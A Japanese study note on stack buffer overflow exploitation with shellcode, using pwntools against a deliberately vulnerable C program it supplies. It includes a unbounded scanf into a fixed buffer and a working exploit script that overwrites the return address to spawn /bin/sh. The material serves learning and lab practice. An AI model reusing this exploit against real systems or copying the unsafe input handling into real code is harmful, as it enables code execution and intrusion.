 # シェルコード

BOF の危険性は自由に関数を呼ばれることだけではない. 既存の関数だけでなく、攻撃者地震が作ったプログラムを動かすことができる.

## シェルコード
16進数の印字不可能文字の送信によって、バイナリの断片を送信可能.  
その断片がプログラムとして実行されることで、攻撃が行われる

## シェルコードの作成
```py
from pwn import *

shellcode = asm(
    """
    push 0x0006948;
    mov eax, 0x4;
    mov ebx, 0x1;
    mov ecx, esp;
    mov edx, 0x4;
    int 0x80
    """
    )

print(enhex(shellcode))
print(shellcraft.sh())
```

## シェルコードによる攻撃
### ターゲット
はじめから `buffer` のスタック位置が分かる.
```c
#include <stdio.h>

void vuln() {
    char buffer[128];
    printf("%p\n", buffer);
    scanf("%[^\n]", buffer);
}

int main() {
    vuln();
    printf("failed!\n");
    return 0;
}
```
### 手順
1. バッファに shellcode, offset, ret_addr を入れ込む.
2. `ret_addr` を書き換え shellcode のスタック位置を `ret` 時の `eip` に格納させる.
3. 適切な shellcode を実行する. (/bin/sh)

```
(B) - (A) = 
-------------------- (A)
shellcode
--------------------
AAA...
-------------------- 
...
-------------------- (B)
ret_addr
--------------------

```
### 必要な情報
1. `buffer` のスタックアドレス
2. `ret` 時に `eip` に格納される スタックまでのオフセット
3. 適切なシェルコード

1 は表示される.
2 は `pattc`, `patto` を利用して算出.
3 は `shellcraft.sh()` を使用.
### 攻撃コード
```py
from pwn import *

p = process("./a.out")

eip_offset = 140
shellcode = asm(shellcraft.sh())
ret_addr = p32(int(p.recvline(), 16))
num = 140 - int(len(shellcode))

payload = shellcode + b"A" * num + ret_addr

p.sendline(payload)
p.interactive()
```
